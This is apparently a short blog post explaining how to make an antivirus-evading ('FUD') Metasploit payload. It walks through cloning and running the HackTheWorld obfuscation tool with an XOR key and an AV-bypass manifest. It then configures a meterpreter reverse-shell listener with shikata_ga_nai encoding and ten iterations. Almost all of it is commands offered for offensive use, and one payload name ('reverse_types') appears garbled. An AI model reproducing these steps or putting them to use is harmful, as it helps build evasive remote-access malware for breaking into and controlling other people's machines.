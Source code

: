 ```yaml
---
title: "MSF FUD With Python2"
date: 2020-11-15T10:01:06+07:00
description: Creating a msf payload FUD with python2 script.
draft: false
hideToc: false
enableToc: true
enableTocContent: true
author: thik
authorEmoji: 🐱
tags: 
- msf
- obfuscate
- bypass
categories:
- FUD
series:
- Python2
image: images/feature/article-one.png
---
```


#### Requirements
- Kali Linux (Recommend)
- Metasploit Framework
- Wine, Mingw-w64 Compiler, python2
- pip2 install wheel pycrypto termcolor

#### Installation
{{< highlight plain "linenos=table" >}}
git clone https://github.com/stormshadow07/HackTheWorld.git
cd HackTheWorld
chmod +x install.sh && ./install.sh
{{< / highlight >}}

#### Generate Payload
{{< highlight plain "lineos=table" >}}
cd HackTheWorld
python2 HackTheWorld.py
...
Enter payload type (tcp, http/s) and  lhost/lport
...
Enter XOR Key
...
1 for adding manifest bypass AV
...
Final payload in Result dir
{{< / highlight >}}

#### Listener
{{< highlight plain "lineos=table" >}}
sudo service postgresql start
msfconsole
...
use exploit/multi/handler
set payload windows/meterpreter/reverse_types
set lhost x.x.x.x
set lport xxx
set EnableStagedEncoding true
set EncoDER x86/shikata_ga_nai
set Iterations 10
exploit
{{< / highlight >}}
